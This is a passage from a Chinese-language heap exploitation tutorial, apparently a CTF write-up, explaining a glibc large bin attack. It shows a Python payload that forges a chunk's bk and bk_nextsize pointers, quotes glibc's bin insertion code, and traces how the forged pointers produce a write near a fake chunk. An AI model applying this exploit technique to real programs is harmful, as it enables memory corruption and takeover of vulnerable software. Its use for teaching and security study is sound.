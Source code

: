 ​    效果图如下。

 ![image-20211226162705942](/assets/wgpsec/images/heap/image-20211226162705942.png)

​    再伪造large bin的bk和bk_nextsize。

 ```python
 payload2 = p64(0)*4 + p64(0) + p64(0x4e1)  #size
 payload2 += p64(0) + p64(fake_chunk+8)   
 payload2 += p64(0) + p64(fake_chunk-0x18-5)#mmap
 edit(8, payload2)
 ```

![image-20211226162726927](/assets/wgpsec/images/heap/image-20211226162726927.png)

​    那么为什么修改这些值呢，再回顾一下两个解链操作。

 ```c
 else// 插入
           {
             //解链操作，nextsize只有largebin才有
             victim->fd_nextsize = fwd;
             victim->bk_nextsize = fwd->bk_nextsize;
             fwd->bk_nextsize = victim;
             victim->bk_nextsize->fd_nextsize = victim;//fwd->bk_nextsize->fd_nextsize=victim
            }
           bck = fwd->bk;
       }
    }
  else
      victim->fd_nextsize = victim->bk_nextsize = victim;
 }
  mark_bin (av, victim_index);
 //解链操作2,fd,bk
  victim->bk = bck;
  victim->fd = fwd;
  fwd->bk = victim;
  bck->fd = victim;
 //fwd->bk->fd=victim
 ```

   这里情况很复杂，需要耐心把每一步链表的操作搞明白，才能理解它的原理。首先victim指的是处在unsorted bin中的堆块，fwd是large bin中的堆块。

  再来回顾一下我们的构造：

 ```c
 victim->bk = fake_chunk
 fwd->bk = fake_chunk+8
 fwd->bk_nextsize=fake_chunk-0x18-5
 ```

  通过解链操作1，我们能得到：

 ```c
 victim->fd_nextsize=fwd
 victim->bk_nextsize=fake_chunk-0x18-5
 fwd->bk_nextsize=victim
 victim->bk_nextsize->fd_nextsize=fake_chunk-0x18-5+0x20=fake_chunk+3=victim
 ```
